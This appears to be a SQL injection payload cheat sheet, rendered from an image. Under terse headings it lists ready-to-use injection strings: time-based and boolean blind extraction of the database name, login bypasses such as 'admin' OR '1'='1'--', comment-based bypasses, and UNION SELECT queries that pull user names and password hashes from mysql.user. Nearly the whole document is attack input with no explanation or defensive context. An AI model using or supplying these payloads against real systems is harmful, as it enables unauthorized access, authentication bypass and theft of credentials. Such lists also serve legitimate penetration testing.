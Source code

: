 ```
' AND IF(1=1,SLEEP(5),0)--
```

## Extract database name with time-based injection

```
' AND IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)--
```

## Test for boolean-based blind SQL injection

```
' AND 1=1--
' AND 1=2--
```

## Extract data length with boolean injection

```
' AND LENGTH(database())=5--
```

## Extract first character with boolean injection

```
' AND SUBSTRING(database(),1,1)='a'--
```

## Bypass login with SQL injection

```
admin' OR '1'='1'--
admin' OR 1=1--
' OR '1'='1
```

## Bypass login with comment injection

```
admin'--
admin'#
```

## Enumerate MySQL users

```
' UNION SELECT 1,user,3 FROM mysql.user--
```

## Enumerate MySQL password hashes

```
' UNION SELECT 1,CONCAT(user,':',password),3 FROM mysql.user--
```
